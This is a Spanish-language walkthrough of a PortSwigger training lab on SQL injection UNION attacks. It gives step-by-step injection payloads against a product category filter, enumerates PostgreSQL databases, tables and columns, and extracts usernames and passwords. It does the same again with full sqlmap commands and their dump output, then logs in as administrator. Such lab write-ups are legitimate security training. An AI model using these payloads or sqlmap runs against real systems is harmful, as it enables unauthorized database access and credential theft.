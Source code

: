 ```yaml
---
title: "SQL injection UNION attack, retrieving multiple values in a single column"
date: 2024-11-15 12:40:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving multiple values in a single column
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-10/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-10/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-10/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-10/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-10/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle` debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-10/image_6.png)


`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-10/image_7.png)

`Listamos` la `base de datos actual`

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-10/image_8.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
/filter?category=Gifts'+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-10/image_9.png)

`Listamos` el `nombre` de las `tablas`

```
/filter?category=Gifts'+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-10/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-10/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+null,string_agg(username||':'||password,',+')+from+users--+-+
```

![](/assets/img/SQLI-Lab-10/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+--------------+
| products     |
| users        |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| email           | varchar |
| password        | varchar |
| username        | varchar |
+-----------------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users -C password,username --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+----------------------+-----------------+
| password             | username        |
+----------------------+-----------------+
| 77mz52vp06wko24p8cl3 | administrator   |
| aqcaasm9mubsp9ngy3m7 | wiener          |
| 1smn2n4jv1mv1uzv5hqm | carlos          |
+----------------------+-----------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-10/image_13.png)
